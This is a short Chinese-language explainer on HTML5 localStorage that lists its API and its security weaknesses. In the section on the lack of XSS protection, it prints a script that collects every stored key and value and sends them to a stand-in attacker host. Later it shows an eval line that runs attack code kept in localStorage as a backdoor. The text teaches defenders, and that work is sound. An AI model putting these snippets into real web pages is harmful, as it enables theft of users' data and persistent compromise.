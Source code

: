 ##简介
----

HTML5本地存储被视作是新时代Cookie的替代品。HTML5的本地存储是使用localStorage对象将WEB数据持久化在本地。相比较而言HTML5本地存储中每个域的存储大小默认是5M，比起Cookie的4K要大的多。而且存储和读取数据的代码极为简练： 

主要接口函数有下面几个：
	Window.localStorage.setItem(key,value);//存储数据 
	Window.localStorage.getItem(key);//读取数据 
	Window.localStorage.removeItem(key);//删除数据项 
	Window.localStorage.clear();//删除所有数据

----

##安全问题

####没有XSS的保护机制

cookie有httponly等属性能够保护cookie不被xss攻击，但是localStorage就没有。一旦发生XSS，攻击者能够直接获得存储的信息。
攻击代码示例：
	var i = 0;
	var str = "";
	while (localStorage.key(i) != null)
	{
	    var key = localStorage.key(i); 
	    str += key + ": " + localStorage.getItem(key);
	    i++;
	}
	document.location="http://your-malicious-site.com?stolen="+ str;

####容易遭受跨目录攻击

cookie可以指定域中的存储路径，但是localStorage没有这样的概念。也就是说，如果同一个域下的任意路径存在XSS漏洞，整个域下存储的数据在知道存储名称的情况下都可以被获取到。

例如，现在有两个用户Jack 和Tom，他们共同在某网站下有一个博客如：blog.xxx.com/Jack , blog.xxx.com/Tom 。
现在Jack发现了该网站的一个XSS漏洞，那么他在自己的博客中存储下xss攻击代码。那么Tom只要访问 blog.xxx.com/Jack , 就会把自己本地的localStorage数据暴露给XSS代码。

####可以作为恶意代码存储的温床

localStorage的存储是永久的，那么就可以作为web shell code 的存储位置，这样在xss中添加类似这样的代码 
	eval(window.localStorage.getItem("webshellcode"));
就能够取出shellcode进行攻击。从而留下了后门。